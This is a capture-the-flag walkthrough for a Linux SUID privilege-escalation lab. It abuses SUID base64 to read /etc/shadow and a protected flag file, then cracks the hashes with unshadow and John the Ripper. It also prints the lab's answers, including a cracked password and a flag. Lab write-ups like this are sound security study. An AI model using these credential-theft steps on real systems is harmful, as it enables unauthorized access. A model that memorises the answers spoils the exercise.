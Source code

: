## Privilege Escalation SUID Solution

### Which user shares the name of a great comic book writer?
1. Execute `cat /etc/passwd/`
   
**Answer: gerryconway**

### What is the password of user2?

1. Type `find / -type f -perm -04000 -ls 2>/dev/null` to list files that have SUID or SGID bits set. 
2. Go to [https://gtfobins.github.io/#+suid](https://gtfobins.github.io/#+suid) to get list of appliations exploitable when SUID bit is set.
3. Can see that base64 is exploitable and we can escalate privileges using SUID.
4. Using the guide that gtfobins gave us we execute the following: 
   ```
   LFILE=/etc/shadow
   base64 "$LFILE" | base64 --decode
   ```

5. Create a local file `passwd.txt` and `shadow.txt` and copy the content from the target machine.

6. Unshadow the files:
   
   ```unshadow passwd.txt shadow.txt > passwords.txt```
   
8. Run john the ripper on `passwords.txt`
```
john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
```

**Answer: Password1**

### What is the content of the flag3.txt file?

1. Let's first check the home directory for the `flag3.txt` file.
2. Let's run the command agin provided by GTFO. 

```
   LFILE=/home/ubuntu/flag3.txt
   base64 "$LFILE" | base64 --decode
```

**Answer: THM-3847834**


   

